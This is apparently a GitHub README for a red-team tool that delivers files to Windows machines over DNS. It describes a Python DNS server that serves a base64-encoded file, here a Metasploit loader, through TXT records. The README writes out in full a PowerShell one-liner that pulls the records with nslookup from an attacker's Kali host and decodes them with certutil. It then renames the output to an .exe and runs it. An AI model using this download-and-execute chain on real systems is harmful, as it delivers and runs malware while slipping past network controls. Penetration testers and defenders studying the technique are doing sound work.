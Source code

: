 # Windows_File_Transfers
Repository for ways to transfer files to Windows using built in binaries

Techniques
dns_server.py
-DNS Server that base64 encodes a file and then server that file in TXT records that are availble through DNS

Usage 
./dns_server.py (FILE_TO_Serve)
-Will output command to use powershell with nslookup to transfer file, then use certutil to decode.
-file that is created on windows system is named "newFile"
-run mv newFile to newFile.exe and run

Example Usage:
KALI 
./dns_server.py /root/Downloads/Metasploit_Custom_loader/loader_64.exe
Old ZoneFile exists, removing
Powershell File Transfer, enter text below in powershell window, change CHANGEME_IP_KALI to IP address of Kali system
 
del File.txt; del newFile; $c = ""; $i = 1; while ($i -le 303){$a = nslookup -q=txt "$i.texting.com" CHANGEME_IP_KALI | Select-String -Pattern '"' | Out-String ; $b = $a.trim(); $c += $b.Replace("`"",""); $i += 1}; $c.Replace("`n","") | Out-File -Append File.txt; certutil.exe -decode .\File.txt newFile
(SNIPPED)

WINDOWS:
-Paste text from script in powershell window, changing IP:
del File.txt; del newFile; $c = ""; $i = 1; while ($i -le 303){$a = nslookup -q=txt "$i.texting.com" 172.16.6.130 | Select-String -Pattern '"' | Out-String ; $b = $a.trim(); $c += $b.Replace("`"",""); $i += 1}; $c.Replace("`n","") | Out-File -Append File.txt; certutil.exe -decode .\File.txt newFile

-Rename file
mv newFile newFile.exe

-Run File
.\newFile.exe
